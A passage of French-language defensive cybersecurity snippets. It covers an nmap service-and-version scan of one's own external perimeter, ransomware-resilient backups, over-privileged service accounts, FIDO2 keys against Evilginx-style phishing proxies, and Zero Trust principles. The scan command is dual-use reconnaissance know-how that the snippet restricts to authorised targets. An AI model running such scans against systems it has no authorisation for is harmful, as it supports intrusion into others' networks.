tech: cybersecurite
level: intermediate
importance: medium
format: knowledge
tags: nmap,reconnaissance,surface-attaque,audit
title: Cartographier ce qu'un attaquant voit de l'extérieur
context: Depuis une machine située hors de votre périmètre, uniquement sur un périmètre qui vous appartient ou avec une autorisation écrite
command: nmap -sV --top-ports 1000 -oN <FICHIER> <HOST>
example: nmap -sV --top-ports 1000 -oN scan_dmz.txt 203.0.113.10
description: Détecte les services et leurs versions. Comparez avec votre inventaire : un service absent de la liste est soit un oubli, soit une exposition.
-->

<!-- snippet
id: cyber_sauvegarde_meme_domaine
type: warning
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: sauvegarde,rancongiciel,resilience,active-directory
title: Sauvegardes dans le même domaine que la production
content: Sauvegardes accessibles en écriture par les comptes du domaine de production : un attaquant avec des privilèges élevés les supprime avant de chiffrer, la restauration devient impossible. Correction : copie hors domaine ou non modifiable, identifiants distincts, et test de restauration chronométré à intervalles planifiés.
description: Une sauvegarde qui tombe avec le domaine ne protège pas contre un rançongiciel qui obtient les droits d'administration.
-->

<!-- snippet
id: cyber_compte_service_admin_domaine
type: warning
tech: cybersecurite
level: intermediate
importance: high
format: knowledge
tags: compte-de-service,moindre-privilege,secrets,elevation
title: Compte de service avec droits d'administrateur de domaine
content: Un compte de service surdimensionné dont le secret traîne dans un script ou un partage donne à l'attaquant tout le domaine dès qu'il lit le fichier. Correction : droits strictement nécessaires, secret déplacé dans un coffre, revue périodique des membres des groupes privilégiés.
description: Le script oublié avec un mot de passe est un chemin d'élévation de privilèges classique : le compte de service est souvent le plus puissant du SI.
-->

<!-- snippet
id: cyber_mfa_cle_fido2_admins
type: tip
tech: cybersecurite
level: intermediate
importance: medium
format: knowledge
tags: mfa,fido2,authentification,phishing
title: Imposer une clé FIDO2 aux comptes à privilèges
content: Pour les administrateurs, remplacer le code par SMS ou application de codes par une clé de sécurité FIDO2. Les proxys d'hameçonnage de type Evilginx interceptent codes et sessions, alors que FIDO2 lie l'authentification au vrai domaine du site.
description: Les seconds facteurs par code peuvent être contournés par un proxy d'hameçonnage ; FIDO2 vérifie le domaine et résiste à ce vecteur.
-->

<!-- snippet
id: cyber_zero_trust_principes
type: concept
tech: cybersecurite
level: intermediate
importance: medium
format: knowledge
tags: zero-trust,nist,vpn,architecture
title: Zero Trust : principes et différence avec un VPN classique
content: Zero Trust (NIST SP 800-207) : aucune confiance implicite liée au réseau, vérification explicite de chaque accès, moindre privilège, hypothèse de compromission. Un VPN classique donne un accès réseau large une fois authentifié ; une approche Zero Trust décide l'accès application par application, avec second facteur et vérification du poste.
description: Approche et non produit : le point de départ réaliste est un second facteur partout, des comptes d'administration séparés et un inventaire.
-->
